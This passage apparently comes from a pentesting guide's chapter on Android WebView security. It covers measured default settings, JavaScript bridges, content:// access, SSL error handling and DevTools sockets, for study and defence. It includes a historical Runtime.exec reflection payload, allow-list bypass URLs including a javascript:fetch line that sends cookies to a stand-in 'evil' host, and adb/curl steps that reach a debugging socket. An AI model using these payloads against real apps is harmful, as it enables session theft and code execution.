| PPID | 30748 (`zygote64`) | **31444 (`webview_zygote`)** |
| Process name | the app's package | the **provider's** package, `:sandboxed_process0` |

The process name is the giveaway for how this is wired. The renderer service is declared in the
**WebView provider's** manifest, not in the app's, with two attributes working together:

```xml
<!-- declared in the WebView provider APK, not in your app -->
<service android:name="org.chromium.content.app.SandboxedProcessService0"
         android:process=":sandboxed_process0"
         android:isolatedProcess="true"
         android:externalService="true"
         android:exported="false" />
```

`isolatedProcess="true"` gives the sandbox. `externalService="true"` means the process is **charged
to the client app** — its lifetime, its memory accounting and its OOM priority follow the app that
bound it, not the provider. So your app "has" a renderer, but that renderer has none of your app's
privileges. This is precisely the design 21 and 28 describe, deployed at the largest scale in the
platform.

**What this buys you, and what it does not.**

It buys: a memory-corruption bug in Blink or V8 — the classic "browse to a page, get code execution"
class — lands in uid 99093 with SELinux `isolated_app`. The attacker has arbitrary code in a process
that cannot read the app's files, cannot open a socket, and cannot call most Binder services. Turning
that into anything requires a **second** bug, a sandbox escape. That is a genuine, load-bearing
mitigation and it is why remote WebView compromise is expensive.

It does not buy: any protection at all from the app's own bridge. Look again at §2.1: the bridge
object runs in the **app** process. When page script calls `AndroidBridge.getSessionToken()`, the
renderer does not read the token — it sends a message, and the app process reads the token and sends
it back. The sandbox is not defeated, it is *used as designed*. The lab in §5.3 does exactly this and
the renderer's isolation is irrelevant throughout.

> **Mental Model**
> The renderer sandbox protects **the app from the page's engine**.
> The bridge is the app volunteering to act on the page's behalf.
> No sandbox protects you from your own deputy.

One nuance measured and worth stating carefully rather than over-claiming: three renderer processes
belonging to three different apps all showed the SELinux label `u:r:isolated_app:s0:c512,c768` —
**identical category pair** — while their UIDs differed (`u0_i9003`, `u0_i9046`, `u0_i9091`,
`u0_i9093`). So on this device the separation between two apps' renderers is carried by the **UID**,
not by per-app MCS categories the way ordinary app separation is
([21-App-Sandbox](../21-App-Sandbox/README.md) §on MCS, [22-SELinux](../22-SELinux/README.md)). Do not
repeat the app-domain MCS formula for isolated processes without measuring it.

### 3.4 The settings table — measured, not recited

This is the reference table this chapter exists to get right, and every cell in it was produced by
running code on the device rather than by reading documentation.

**How it was measured.** `examples/webview-probe/ProbeActivity.java` assigns to
`getApplicationInfo().targetSdkVersion` — a plain public `int` field on an object the app owns —
constructs a fresh `WebView`, reads every getter, and repeats for seventeen values. That the
mutation *works* is itself a result: it proves `AwSettings` reads the target SDK **per WebView, at
construction time**, rather than caching it in a static at process start.

```bash
# host — reproduce it yourself
cd examples && ./build.sh --install
adb logcat -c
adb shell am start -n com.pentest.ch43.probe/.ProbeActivity
adb logcat -d -s CH43PROBE:I
```

Raw output, trimmed to the columns that matter, from
**Android 11 / API 30, WebView 150.0.7871.181**:

| targetSdk | `javaScriptEnabled` | `allowFileAccess` | `allowFileAccessFromFileURLs` | `allowUniversalAccessFromFileURLs` | `allowContentAccess` | `domStorageEnabled` | `mixedContentMode` | `safeBrowsingEnabled` |
|---|---|---|---|---|---|---|---|---|
| 14 | false | **true** | **true** | **true** | true | false | **0** | true |
| 15 | false | **true** | **true** | **true** | true | false | **0** | true |
| **16** | false | true | **false** | **false** | true | false | 0 | true |
| 17–19 | false | true | false | false | true | false | **0** | true |
| **21** | false | true | false | false | true | false | **1** | true |
| 23–29 | false | **true** | false | false | true | false | 1 | true |
| **30** | false | **false** | false | false | true | false | 1 | true |
| 31–35 | false | false | false | false | **true** | false | 1 | true |

`mixedContentMode`: `0` = `MIXED_CONTENT_ALWAYS_ALLOW`, `1` = `MIXED_CONTENT_NEVER_ALLOW`,
`2` = `MIXED_CONTENT_COMPATIBILITY_MODE`.

The remaining tracked settings were **constant across all seventeen rows** and are recorded here so
nobody has to re-measure them:

| Setting | Value at every targetSdk 14–35 |
|---|---|
| `databaseEnabled` | `false` |
| `javaScriptCanOpenWindowsAutomatically` | `false` |
| `mediaPlaybackRequiresUserGesture` | `true` |
| `cacheMode` | `-1` (`LOAD_DEFAULT`) |
| `blockNetworkLoads` | `false` |
| `loadsImagesAutomatically` | `true` |

**The three transitions, and what they mean.**

| Transition | At targetSdk | What changed |
|---|---|---|
| `allowFileAccessFromFileURLs`, `allowUniversalAccessFromFileURLs`: **true → false** | **16** (JELLY_BEAN) | Before this, a local HTML file could read any other file and any origin, by default. This is ancient history but survives in apps with a very low `targetSdkVersion` |
| `mixedContentMode`: **0 → 1** | **21** (LOLLIPOP) | Mixed content went from silently allowed to blocked |
| `allowFileAccess`: **true → false** | **30** (R) | The most recent, and the one you will actually meet. Below 30, `file://` loading is on by default |

**The one that never changes, and matters most.**

`allowContentAccess` is **`true` at every single targetSdkVersion from 14 to 35.** There is no
version at which it flipped, no deprecation, and no plan to change it. An app that has never heard of
the setting has it enabled. Combined with JavaScript — which most WebViews need — this means **page
script in a very large fraction of Android apps can issue requests to `content://` URIs that resolve
with the host app's identity.** §3.8 measures exactly when that is exploitable, and the answer is
narrower than most write-ups claim, which is why measuring mattered.

> **Warning — do not copy this table into a report without its version stamp.**
> These are the defaults for **WebView 150.0.7871.181**. Several are implemented in `AwSettings`,
> which is provider code and updates independently of Android. Re-run the probe on the device you are
> testing. It takes two minutes and it is the difference between a measurement and a rumour.

The user agent, measured on the same run:

```
Mozilla/5.0 (Linux; Android 11; M2101K6P Build/RKQ1.200826.002; wv)
AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/150.0.7871.181 Mobile Safari/537.36
```

Two things in it are worth flagging in a privacy review. The token **`wv`** identifies the request as
coming from a WebView rather than from Chrome — servers use it, and so can an attacker deciding
whether to serve the exploit. And the **build fingerprint** `M2101K6P Build/RKQ1.200826.002` is a
device model and exact build identifier sent to every server the WebView contacts, including every
third-party ad and analytics frame.

### 3.5 Every setting that matters, one at a time

Each entry gives: what it does, its measured default, what turns it into a finding, and the honest
severity.

#### `setJavaScriptEnabled(boolean)`

**Default: `false`, at every targetSdk.** Enables script execution in loaded pages.

An app that turns this on has done something completely ordinary. Almost every page that is not a
static block of text needs it. Turning it *off* is not remediation for anything else in this section;
it is a decision to render a different, poorer product.

**When it becomes a finding:** never, on its own. It is the **precondition** that converts other
settings into findings — a bridge with JavaScript off is inert, `allowContentAccess` with JavaScript
off cannot be exercised by a page, and `allowUniversalAccessFromFileURLs` with JavaScript off is
mostly theoretical. Report it as context in the evidence line of the finding it enables. A report
whose headline is "JavaScript is enabled in the WebView" will be closed as informational, correctly,
and it will cost you credibility on the findings underneath it.

`scripts/webview-audit.py` emits this as `WV-070 [INFO]` with that reasoning printed inline, because
the temptation to inflate it is strong.

#### `setAllowFileAccess(boolean)`

**Default: `true` up to targetSdk 29, `false` from 30.** Master switch for whether the WebView will
load `file://` URLs at all — including `file:///android_asset/` and `file:///android_res/`.

**When it becomes a finding:** an *explicit* `setAllowFileAccess(true)` in an app targeting 30 or
above is a deliberate re-enable of something the platform switched off, and it deserves a reason.
Below 30 it is the default and is only interesting in combination — with an attacker-influenced
local file path, or with either of the two settings below.

The combination that matters: **`file://` loading + a path an attacker can influence**. Where does an
attacker-controlled file come from? Downloads the app writes, files another app shares, a cache
directory that is world-writable through a different bug, or an `openFileOutput` reachable from a
provider. Each is a separate finding and this setting is what makes it reach.

turning it off does **not** break `file:///android_asset/`… on all versions — behaviour
across provider versions differs, and `WebViewAssetLoader` from `androidx.webkit` is the supported
way to serve packaged assets over an `https://` origin instead. That is the modern remediation:
serve your own assets from a virtual `https` origin and leave `file://` off entirely.

#### `setAllowFileAccessFromFileURLs(boolean)`

**Default: `true` up to targetSdk 15, `false` from 16.** Whether a document loaded from a `file://`
URL may read *other* `file://` URLs via `XMLHttpRequest` or `fetch`.

**When it becomes a finding:** whenever an attacker can get HTML into any file the app will load
from `file://`. The exploit is one line of JavaScript reading
`file:///data/data/<pkg>/shared_prefs/prefs.xml` and posting it out. Severity MEDIUM by shape, HIGH
once you demonstrate the local-file write.

#### `setAllowUniversalAccessFromFileURLs(boolean)`

**Default: `true` up to targetSdk 15, `false` from 16.** Whether a `file://` document may read
**any** origin: other files, `content://` URIs, and remote `https://` sites — with the app's cookies.

This is the worst single value in `WebSettings`. It does not relax the same-origin policy; it
switches it off for local documents. A `file://` page can `fetch("https://mail.example.com/inbox")`
and read the response, because it is a universal origin.

**When it becomes a finding:** always, when set to `true`. HIGH. The only remaining question is
reachability, and the honest way to write it is to state the setting as a HIGH-shape finding and the
reachability separately.

#### `setAllowContentAccess(boolean)`

**Default: `true`, at every targetSdk measured (14–35).** Whether the WebView will resolve
`content://` URIs.

Covered in full in §3.8 because the exploitability is origin-dependent and the measurement is
surprising. The summary: this is the setting nobody writes, it is on, and the requests it permits
resolve **as the host app**.

**When it becomes a finding:** MEDIUM when JavaScript is on and any attacker-influenced content can
reach the WebView **from a `file://` origin**. See §3.8 for why that qualifier is load-bearing.

#### `setDomStorageEnabled(boolean)`

**Default: `false`.** Enables `localStorage` and `sessionStorage`.

Stored in the app's private data directory under `app_webview/Local Storage/`, in plain text, in a
LevelDB. Not a network finding; a **storage** finding, and only if something sensitive is in it. Go
and read the files before you report it — see [33-Storage](../33-Storage/README.md), and note that
chapter's published false-positive numbers before you get excited about a hit.

#### `setMixedContentMode(int)`

**Default: `MIXED_CONTENT_ALWAYS_ALLOW` (0) up to targetSdk 19, `MIXED_CONTENT_NEVER_ALLOW` (1) from
21.**

| Constant | Value | Behaviour |
|---|---|---|
| `MIXED_CONTENT_ALWAYS_ALLOW` | 0 | `http://` subresources load inside an `https://` page |
| `MIXED_CONTENT_NEVER_ALLOW` | 1 | They are blocked |
| `MIXED_CONTENT_COMPATIBILITY_MODE` | 2 | Chromium decides: active content (scripts, iframes, XHR) blocked, passive content (images, video) allowed |

**When it becomes a finding:** `0` is a MEDIUM. A network attacker who can answer one `http://`
script request gets script execution **inside the `https://` origin**, with that origin's cookies and
DOM. That is a full compromise of the page from a position that only requires being on the same
network.

Two qualifications that keep this honest. First, the network security config still decides whether
the `http://` request is permitted to leave the device at all — with `cleartextTrafficPermitted="false"`
the request fails regardless of this setting. So `0` plus a strict config is a latent defect, not a
live one, and saying so is the difference between a report that gets fixed and one that gets
argued with. Second, mode `2` is a moving target: exactly which content counts as active is decided
by Chromium and changes across provider versions.

#### `setSafeBrowsingEnabled(boolean)`

**Default: `true`, measured at every targetSdk 14–35.** This contradicts a common table
that ties it to API 26 — the *getter* exists only from API 26, but the underlying default was `true`
in every row the probe measured, including targetSdk 14.

Google Safe Browsing checks navigations against a malicious-URL list. It can be disabled for a whole
app from the manifest:

```xml
<meta-data android:name="android.webkit.WebView.EnableSafeBrowsing" android:value="false" />
```

**When it becomes a finding:** the manifest opt-out is worth an INFO observation — the app has
removed a platform protection — but it is a privacy trade-off some apps make deliberately, and it is
not a vulnerability.

#### `setWebContentsDebuggingEnabled(boolean)` — a static on `WebView`, not on `WebSettings`

**Default: off.** Covered in §3.13, because its consequence is a socket rather than a setting.

#### The rest, briefly

| Setting | Default | Why it is here |
|---|---|---|
| `setDatabaseEnabled` | `false` | The deprecated WebSQL API. Storage surface only |
| `setJavaScriptCanOpenWindowsAutomatically` | `false` | `window.open()` without a gesture. UI-nuisance rather than security |
| `setMediaPlaybackRequiresUserGesture` | `true` | Autoplay. Privacy-adjacent |
| `setGeolocationEnabled` | `true` | Offers the geolocation API to pages — still gated by the app's own `ACCESS_FINE_LOCATION` and by `WebChromeClient.onGeolocationPermissionsShowPrompt`. The app's handler is the control worth reading |
| `setSavePassword` | n/a | Removed/ignored from API 18. Its presence means very old code |
| `setSaveFormData` | n/a | No-op from API 26. Same signal |
| `setBlockNetworkLoads` | `false` | Blocks all network loads. Rarely set; a strong hardening signal when it is |
| `setUserAgentString` | see §3.4 | Apps that append a token here often append a **session identifier**. Worth grepping for |

### 3.6 `addJavascriptInterface`: how a JavaScript call becomes a Java call

The mechanism, precisely, because "it lets JavaScript call Java" is true and useless.

```java
// app code, once, before the page loads
webView.addJavascriptInterface(new LeakyBridge(this), "AndroidBridge");
```

```javascript
// page script, any time after
var token = AndroidBridge.getSessionToken();
```

What happens between those two lines:

1. **Registration.** The provider records the object and the name. On the next navigation, Chromium
   creates a JavaScript object named `AndroidBridge` in the page's global scope.
2. **Method enumeration.** The provider reflects over the Java object's **public** methods and selects
   those annotated `@android.webkit.JavascriptInterface`. Only those become properties of the
   JavaScript object. Everything else is not merely unreachable — it is *absent*, and
   `typeof AndroidBridge.notExposed` is `"undefined"`.
3. **Injection.** The object is injected into **every frame of every document** the WebView loads,
   including cross-origin iframes, unless the app is using the modern origin-scoped API instead
   (§3.7).
4. **The call.** Page script calls the method. V8 is in the renderer process; the Java object is in
   the app process. The call is marshalled across Chromium's IPC, arrives in the app process, and the
   provider invokes the Java method **by reflection**.
5. **The thread.** The invocation happens on a Chromium background thread — *not* the UI thread. A
   bridge method that touches UI state without posting to the main thread is a real, common crash
   bug, and a bridge method that touches shared app state is a real, uncommonly-noticed race.
6. **The return.** The return value is converted back to a JavaScript value and marshalled to the
   renderer.

The type mapping is deliberately narrow, and knowing it saves guessing at an interface:

| Java type | JavaScript |
|---|---|
| `boolean`, `byte`, `char`, `short`, `int`, `long`, `float`, `double` | number / boolean |
| `String` | string |
| `void` | `undefined` |
| Arrays and other objects | **not supported** — they arrive as `undefined`, which is why almost every real bridge passes JSON in a `String` |

That last row explains a pattern you will see constantly: `handleAction(String json)`. Four of the
eight bridge methods measured in a real app in §5.4 have exactly that shape. It also creates a second
attack surface, because now there is a **parser** on the far side, taking attacker-controlled JSON,
in the app's process.

> **Under the Hood**
> The bridge object is a **strong reference held by the WebView**. It keeps the object — and
> transitively its `Context`, which is very often an `Activity` — alive for the WebView's lifetime.
> `LeakyBridge` in `examples/vulnerable-webview/` holds a `Context` exactly as most real bridges do.
> Memory-leak territory rather than security territory, but it is why `removeJavascriptInterface`
> exists.

### 3.7 `@JavascriptInterface`: what API 17 fixed, and what it did not

This is the most-repeated and least-understood piece of WebView history, so here it is exactly.

**Before API 17 (Android 4.2):** there was no annotation. *Every public method of the bridged object*
was callable from JavaScript. Including the ones inherited from `java.lang.Object`.

That inheritance is what made it catastrophic rather than merely dangerous. `getClass()` is public on
every Java object. So:

```javascript
// page script, on API 16 and below — this is the historical attack, do not expect it to work today
var rt = AndroidBridge.getClass()
                      .forName("java.lang.Runtime")
                      .getMethod("getRuntime", null)
                      .invoke(null, null);
rt.exec(["/system/bin/sh", "-c", "id > /data/data/com.victim/pwned"]);
```

One reflection chain from *any* bridged object to `Runtime.exec`. Arbitrary command execution as the
app's UID, from a web page, on any app with any `addJavascriptInterface` call. This is the issue
usually referenced as the `addJavascriptInterface` remote code execution problem; it is a **platform**
issue with a well-known Android Security Bulletin history, and this repository deliberately does not
attach a CVE identifier to it rather than risk citing the wrong one.

**What API 17 changed:** only methods explicitly annotated `@android.webkit.JavascriptInterface` are
exposed. `getClass()` is not annotated, so the chain above is broken at its first link. The gate
applies when the app's **`targetSdkVersion` is 17 or higher** — an app targeting 16 running on a
modern device still got the old behaviour, which is why the "affects 4.2 and below" framing was
always slightly wrong.

Verify the gate yourself rather than believing it — `examples/vulnerable-webview/home.html` has a
button that prints:

```
typeof AndroidBridge            = object
typeof AndroidBridge.deviceInfo = function
typeof AndroidBridge.notExposed = undefined      <- public, unannotated: absent
typeof AndroidBridge.getClass   = undefined      <- the historical attack, closed
```

**What API 17 did not change — and this is the whole point:**

- The annotated methods are still fully reachable. The app chose them; the attacker now uses them.
- The bridge still runs in the app's process, as the app's UID, with the app's permissions.
- The bridge is still injected into **every frame of every document**, including third-party iframes
  and ad frames. An ad network's iframe can call your bridge.
- Nothing about *which origins* may call it. That is the gap `WebViewCompat.addWebMessageListener`
  closes, and it is the modern replacement:

```java
// androidx.webkit — the origin allow-list is enforced by Chromium before the message crosses
WebViewCompat.addWebMessageListener(
        webView,
        "appBridge",
        new HashSet<>(Arrays.asList("https://lab.example.com")),
        listener);
```

> **Warning**
> "We use `@JavascriptInterface`, so the `addJavascriptInterface` vulnerability does not apply to us"
> is a sentence you will hear in a remediation meeting. It is true and irrelevant. **The risk is the
> bridge, not the annotation.** The annotation narrows *which* methods a page can call; it says
> nothing about what those methods do. `getSessionToken()` is annotated, and it hands out the session
> token.

### 3.8 Reaching a ContentProvider from JavaScript — measured, and narrower than usually claimed

[27-ContentProviders](../27-ContentProviders/README.md) points here for this, and it is worth doing
carefully because the widely-repeated version of this claim is too broad.

**The mechanism.** With `setAllowContentAccess(true)` — the default — a page may request a
`content://` URI. The WebView asks the app's `ContentResolver`. The resolver performs the lookup
**with the app's identity**, because it is the app's process making the call. Every provider the app
can read answers: its own (whether or not it is exported), and every exported provider on the device
for which the app holds permission.

That is a genuine authority escalation for a web page: from "an origin on the internet" to "this
installed application".

**But it does not work from every origin.** Measured, with the lab app configured as permissively as
possible — `allowContentAccess(true)`, `allowFileAccess(true)`, `allowFileAccessFromFileURLs(true)`,
`allowUniversalAccessFromFileURLs(true)`, JavaScript on — the same page, running the same
`XMLHttpRequest`, from two different origins:

| Page origin | `XHR content://com.pentest.ch43.vuln.notes/note` | `XHR file:///data/data/<pkg>/files/session.txt` |
|---|---|---|
| `http://127.0.0.1:8000` (a remote page) | **status 0, empty body — blocked** | **status 0, empty body — blocked** |
| `file:///data/data/<pkg>/files/evil.html` | **status 200, body returned** | **status 200, body returned** |

The measurement, from the collector log:

```
origin    | http://127.0.0.1:8000 | http://127.0.0.1:8000/evil.html
content   | status=0 body=
file      | status=0 body=

origin    | file:// | file:///data/data/com.pentest.ch43.vuln/files/evil.html
content   | status=200 body=private note, provider-backed: CH43{content_scheme_resolves_as_the_host_app}
file      | status=200 body={"user":"lab@example.invalid","session":"CH43{...}","issued":"lab"}
```

**Conclusion, stated precisely.** On WebView 150 / API 30, the `content://` and `file://` scheme
relaxations are available to a **`file://`-origin document**. A remote `http://` or `https://` page
is refused by Chromium's scheme and origin rules regardless of the `WebSettings` values. So the
exploit chain is:

1. an attacker gets HTML into a location the app will load from `file://`, **and**
2. `setAllowFileAccess` is on (default below targetSdk 30), **and**
3. `setAllowContentAccess` is on (default everywhere) or the file-URL relaxations are on.

That is a real chain and apps ship it. It is not the "any web page can read your providers" claim
that circulates, and reporting the broader version will get your finding disputed by a developer who
tests it from a remote page and sees nothing.

**Then look at the same run's bridge results.** From the **`http://` origin**, blocked from
`content://` entirely, the page still successfully called `AndroidBridge.readContent("content://...")`
and got the note back — because the *bridge* is origin-agnostic. That is the contrast worth
internalising:

| | Reachable from a remote `https://` page? |
|---|---|
| `content://` and `file://` via `XMLHttpRequest` | **No** — needs a `file://` origin |
| A Java bridge method that itself calls `ContentResolver` | **Yes** — origin is never consulted |

Which is why `setAllowContentAccess(false)` is worth writing, and why it is not sufficient.

### 3.9 `file://` origins and why they are strange

A document loaded from `file://` has an origin, but a peculiar one. In the measurement above,
`location.origin` for `file:///data/data/.../evil.html` printed exactly `file://` — **not** a
per-directory or per-file origin. Every local file shares one origin string.

That is why the two relaxations exist as separate switches, and why `AllowUniversalAccess` is
strictly worse than `AllowFileAccess`: the first says "local files may read each other", the second
says "local files may read everything".

It is also why the modern advice is to stop using `file://` entirely for app-packaged content. The
supported replacement is `androidx.webkit.WebViewAssetLoader`, which serves your `assets/` and
`res/` over a **virtual `https://` origin** (by default `https://appassets.androidplatform.net/`).
The page then has a normal web origin, the same-origin policy behaves normally, and
`setAllowFileAccess(false)` costs you nothing.

### 3.10 `onReceivedSslError` — the mechanism no configuration can reach

The signature:

```java
public void onReceivedSslError(WebView view, SslErrorHandler handler, SslError error)
```

**When it is called.** Chromium's network stack finished validating the server's certificate chain
and the validation **failed**. The load is paused. The framework calls this method and waits for the
app to decide.

**What the app is given.**

| Object | What it carries |
|---|---|
| `SslError.getPrimaryError()` | An int, one of the six below |
| `SslError.getUrl()` | The URL that failed |
| `SslError.getCertificate()` | An `SslCertificate` — issued-to, issued-by, validity dates |
| `SslErrorHandler.proceed()` | Load it anyway |
| `SslErrorHandler.cancel()` | Refuse |

The error codes, from `android.net.http.SslError`:

| Constant | Value | Meaning |
|---|---|---|
| `SSL_NOTYETVALID` | 0 | The certificate is not yet valid |
| `SSL_EXPIRED` | 1 | It has expired |
| `SSL_IDMISMATCH` | 2 | The hostname does not match the certificate |
| `SSL_UNTRUSTED` | 3 | The certificate authority is not trusted |
| `SSL_DATE_INVALID` | 4 | The date is invalid |
| `SSL_INVALID` | 5 | A generic error |

only one code is delivered even when several apply — `getPrimaryError()` returns the most
severe. `SslError.hasError(int)` checks the others.

**What "no XML can stop it" means, exactly.** The network security config
([44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md)) is a description of **whom to
trust**: which anchors, which pins, whether cleartext is allowed. `onReceivedSslError` is invoked at
the moment the answer to "did anyone we trust vouch for this server?" came back **no**. The config
has already run, has already said no, and the app is now overruling it. There is no element in the
schema that expresses "and do not let the app override this", because the schema is not in that
conversation.

**Measured, end to end.** The lab app ships a network security config that is entirely correct:
`cleartextTrafficPermitted="false"`, `<certificates src="system"/>`, no `<debug-overrides>`. It was
pointed at an HTTPS server presenting a self-signed certificate:

```
CH43VULN: loading https://127.0.0.1:8443/evil.html
CH43VULN: SSL error ignored: primaryError=3 url=https://127.0.0.1:8443/evil.html
CH43VULN: bridge: getSessionToken()
```

And from `scripts/trace-webview.js`, watching the same navigation:

```
[SSL] onReceivedSslError in com.pentest.ch43.vuln.VulnerableWebViewActivity$SloppyWebViewClient
    primaryError=3  SSL_UNTRUSTED    - certificate authority is not trusted
    url=https://127.0.0.1:8443/evil.html
    subject=CN=ch43-lab-impostor
    issuer=CN=ch43-lab-impostor
[SSL]   --> app called handler.proceed()   THE LOAD CONTINUES, certificate error and all
[VERDICT]
  SSL error decisions      : proceed=1  cancel=0
  >>> this app accepted at least one INVALID CERTIFICATE at runtime.
```

The page loaded. Its JavaScript called the bridge. The session token was exfiltrated. The
configuration file was correct throughout and irrelevant throughout.

> **A device caveat that changes nothing here, and everything elsewhere**
> The test device's **system CA store is modified** — an APatch `trustusercerts` module has
> bind-mounted an interception CA into `/system/etc/security/cacerts`, where 139 certificates are
> present and one of them is the proxy's. That is why this demonstration deliberately uses a
> **self-signed certificate from a CA that is in no store at all**, generated on the spot: the
> result then does not depend on the device's trust posture in any way. Before making any claim
> about what an app *trusts*, run
> `adb shell mount | grep cacerts`. On this device that check shows APatch, and a successful
> intercept here would prove nothing about user-store trust.

**Two more callbacks on the same trust surface**, worth knowing because they are rarer and therefore
less scrutinised:

- **`onReceivedClientCertRequest(view, request)`** — the server asked for a *client* certificate. An
  app that calls `request.proceed(key, chain)` without checking `request.getHost()` will hand its
  client certificate to whichever host asked. The tracer reports these.
- **`onReceivedHttpAuthRequest(view, handler, host, realm)`** — HTTP Basic/Digest. An app that
  supplies stored credentials without checking `host` leaks them to any host that prompts.

### 3.11 What the network security config *does* govern inside a WebView

To be scrupulously fair to chapter 44: the config is not bypassed by WebViews. It reaches them.

**Cleartext is enforced.** Chromium calls the platform's `NetworkSecurityPolicy` through JNI before
starting a cleartext request. When the policy denies it, the load fails with
**`ERR_CLEARTEXT_NOT_PERMITTED`** and no packet leaves the device. This applies to the top-level
document *and* to subresources.

You can prove it in thirty seconds with this chapter's lab app. Its config permits cleartext to
`127.0.0.1` only, which is how the attack page is served. Remove the
`android:networkSecurityConfig` attribute from the manifest, rebuild, and the identical navigation
fails with `ERR_CLEARTEXT_NOT_PERMITTED` — the default policy for targetSdk 28 and above denies
cleartext everywhere. That is chapter 44's mechanism, working, inside a WebView.

**Trust anchors are murkier, and honesty is better than a clean rule.** Chromium performs its own
chain building. Whether a `<certificates src="user"/>` anchor or a `<pin-set>` in the config
influences a WebView request is version- and configuration-dependent, and chapter 44 says explicitly
that a pinned domain should not be assumed pinned inside a WebView. **Test it; do not assume it in
either direction.** The device this chapter was written on cannot settle the user-versus-system
question at all, because of the modified store noted above.

The division of responsibility, then:

| Question | Answered by | Chapter |
|---|---|---|
| May this WebView load `http://`? | the network security config | 44 |
| Which anchors does the *Java* stack trust? | the network security config | 44, 35 |
| Which anchors does *Chromium* trust? | Chromium, with the platform store as input; test it | here + 44 |
| What happens when validation fails in a WebView? | **`onReceivedSslError`, in app code** | **here** |
| Does an OkHttp pin protect WebView traffic? | **No** | here + 36 |

### 3.12 `shouldOverrideUrlLoading` and `shouldInterceptRequest`

Both are `WebViewClient` callbacks, both are controls, and both are attack surface.

#### `shouldOverrideUrlLoading(WebView, WebResourceRequest)`

Called before a **top-level navigation**. Returning `true` means "I handled this, do not load it";
returning `false` means "go ahead".

There is an older overload taking a `String` instead of a `WebResourceRequest`, deprecated from API
24. Apps often override only one, and which one fires depends on the API level — an app that
overrides the `String` version and runs on API 24+ has a gate that never fires. Look for both.

**What it does not see.** Subresources. Images, scripts, XHR, `fetch`, iframes, redirects that
Chromium follows internally. An allow-list implemented only here does not constrain what the page
loads *into* itself.

**How allow-lists here are bypassed.** Almost always by substring matching a URL instead of parsing
it and comparing the host:

```java
// the vulnerable pattern, in examples/vulnerable-webview/
if (url.contains("lab.example.com")) { return false; }
```

| Attacker URL | Why it passes |
|---|---|
| `https://lab.example.com.attacker.invalid/` | The string is a prefix of a hostname the attacker owns |
| `https://attacker.invalid/?x=lab.example.com` | The string is in the query |
| `https://lab.example.com@attacker.invalid/` | Userinfo. The host is `attacker.invalid` |
| `https://sub.lab.example.com.evil/` | Same as the first, with more noise |
| `javascript:fetch('http://evil/'+document.cookie)` | Not http at all; a `startsWith("https")` check would catch this and `contains` does not |

The correct implementation parses, checks the scheme, rejects userinfo, and compares the host exactly
against a set — `examples/hardened-webview/HardenedWebViewActivity.java` has it, with each check
annotated with the bypass it defeats.

**The second bug that lives here:** handing unvalidated URLs to `startActivity`. A gate that does
`startActivity(new Intent(Intent.ACTION_VIEW, uri))` for anything off the allow-list has converted a
WebView finding into an Intent finding, and `intent:` scheme URLs parsed with `Intent.parseUri` are
the classic escalation — a web page choosing a component to start inside the app.
[26-Intent](../26-Intent/README.md) owns that; this is where it starts.

#### `shouldInterceptRequest(WebView, WebResourceRequest)`

Called for **every resource**, including subresources. Returning `null` means "fetch it normally";
returning a `WebResourceResponse` means "here are the bytes, do not go to the network".

- It runs on a **Chromium background thread**, not the UI thread. Touching app state here without
  synchronisation is a race, and blocking here stalls the page.
- It is the correct place for a subresource allow-list, and the place `WebViewAssetLoader` plugs into.
- It is also a *very* effective place for an attacker-facing bug: an app that serves local files from
  here based on the request path has built a file server with a path-traversal surface.

The tracer prints every call to both, with the URL and the return value, so you can see an allow-list
work or fail live:

```
[NAV] shouldInterceptRequest(https://127.0.0.1:8443/evil.html) -> null [fetch normally]
[NAV] shouldOverrideUrlLoading(https://evil.invalid/) -> true   [BLOCKED or handled by the app]
```

### 3.13 Remote debugging and `@webview_devtools_remote` — measured, and not the name you expect

```java
WebView.setWebContentsDebuggingEnabled(true);
```

That one static call opens a **unix domain socket in the abstract namespace** speaking the Chrome
DevTools Protocol.

> **Definition — abstract namespace socket**
> A unix socket whose name is not a filesystem path. It begins with a NUL byte, conventionally written
> with a leading `@`. Because there is no file, there are **no filesystem permissions**: no owner, no
> mode, no SELinux file label. Access control is whatever the SELinux policy says about the two
> domains connecting, and nothing else. [24-IPC](../24-IPC/README.md) owns the general mechanism; this
> is its most consequential instance.

**What the socket is actually called.** Widely-repeated guidance says `@<package>_devtools_remote`,
or `@chrome_devtools_remote`. Measured on this device, with the lab app running:

```bash
# host
adb shell "cat /proc/net/unix | grep -i devtools"
```

```
0000000000000000: 00000002 00000000 00010000 0001 01 8835563 @webview_devtools_remote_22865
```

**`@webview_devtools_remote_<pid>`.** Not the package name — the literal string `webview`, with the
process ID appended. That naming is a real trap: a scan for `@<package>_devtools_remote` finds
nothing and you conclude debugging is off.

The `@chrome_devtools_remote` name that other chapters point here for belongs to **Chrome itself**
(and to Chrome-based browsers), not to app WebViews. Both are DevTools endpoints; they are named
differently because they come from different products. When you are hunting, grep for `devtools`, not
for either specific name.

**Was one present on the device before any lab app existed?** No:

```bash
# host, with no lab app installed
adb shell "cat /proc/net/unix | grep -i devtools"      # no output
adb shell "su -c 'cat /proc/net/unix'" | grep -i devtools   # no output either
```

Zero, as root, across the whole device, with 17 abstract sockets present in total — while
`scripts/webview-audit.py` found **20 static `setWebContentsDebuggingEnabled` call sites across 11
real APKs** (§5.4). Those calls exist and are guarded by a debug check. That gap between 20 static
call sites and 0 live sockets is exactly why a static finding here needs a runtime confirmation
before it is reported.

**What an attacker does with it.** Measured, from an ordinary `adb shell` (uid 2000, **no root**):

```bash
# host
adb forward tcp:9222 localabstract:webview_devtools_remote_22865
curl -s http://127.0.0.1:9222/json/version
curl -s http://127.0.0.1:9222/json/list
```

```json
{
   "Android-Package": "com.pentest.ch43.vuln",
   "Browser": "Chrome/150.0.7871.181",
   "Protocol-Version": "1.3",
   "V8-Version": "15.0.245.21",
   "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/browser"
}
[ {
   "id": "28FE6A8F73CC86EE3C3115E78B5D66BB",
   "title": "totally normal page",
   "type": "page",
   "url": "http://127.0.0.1:8000/evil.html",
   "webSocketDebuggerUrl": "ws://127.0.0.1:9222/devtools/page/28FE..."
} ]
```

That WebSocket is a full DevTools session: `Runtime.evaluate` runs arbitrary JavaScript in the page,
`DOM.getDocument` reads it, and — because script in the page can call the bridge — **every
`@JavascriptInterface` method is reachable through it**. On a device with USB debugging enabled that
is a local attacker with a cable. On a device with a malicious app installed, it depends entirely on
whether SELinux permits that app's domain to connect, which is why the abstract-namespace detail
matters: there is no file mode to fall back on.

**Severity.** `setWebContentsDebuggingEnabled(true)` in a **release** build is a HIGH on its own.
Guarded by `FLAG_DEBUGGABLE`, as in `examples/hardened-webview/`, it is not a finding at all — and
